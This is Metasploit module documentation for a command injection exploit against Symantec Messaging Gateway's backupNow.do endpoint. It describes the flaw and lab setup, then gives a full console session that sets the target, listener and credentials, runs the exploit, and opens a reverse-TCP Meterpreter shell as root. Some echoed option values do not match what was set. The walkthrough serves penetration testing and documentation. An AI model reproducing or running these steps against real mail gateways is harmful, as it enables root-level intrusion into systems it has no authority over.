 ## Vulnerable Application

This module exploits the command injection vulnerability of Symantec Messaging Gateway product. An authenticated user can execute a
terminal command under the context of the web server user which is root.

backupNow.do endpoint takes several user inputs and then pass them to the internal service which is responsible for executing
operating system command. One of the user input is being passed to the service without proper validation. That cause an command
injection vulnerability. But given parameters, such a SSH ip address, port and credentials are validated before executing terminal
command. Thus, you need to configure your own SSH service and set the required parameter during module usage.

**Vulnerable Application Installation Steps**

Click on the "free trial" button at the following URL.
[https://www.symantec.com/products/messaging-security/messaging-gateway](https://www.symantec.com/products/messaging-security/messaging-gateway)

You need to complete the reqistration in order to download ISO file. License file will be delivered to your e-mail address

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/linux/http/symantec_messaging_gateway_exec 
msf exploit(symantec_messaging_gateway_exec) > set RHOST 12.0.0.199
RHOST => 12.0.0.199
msf exploit(symantec_messaging_gateway_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(symantec_messaging_gateway_exec) > set USERNAME admin
USERNAME => admin
msf exploit(symantec_messaging_gateway_exec) > set PASSWORD qwe123
PASSWORD => qwe123
msf exploit(symantec_messaging_gateway_exec) > set SSH_ADDRESS 12.0.0.15
SSH_ADDRESS => 127.0.0.1
msf exploit(symantec_messaging_gateway_exec) > set SSH_USERNAME root
SSH_USERNAME => root
msf exploit(symantec_messaging_gateway_exec) > set SSH_PASSWORD toor
SSH_PASSWORD => qwe123
msf exploit(symantec_messaging_gateway_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:qwe123
[*] Capturing CSRF token
[+] CSRF token is : 48f39f735f15fcaccd0aacc40b27a67bf76f2bb1
[*] Sending stage (39842 bytes) to 12.0.0.199
[*] Meterpreter session 1 opened (12.0.0.1:4444 -> 12.0.0.199:53018) at 2017-04-30 14:00:12 +0300

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : hacker.dev
OS              : Linux 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
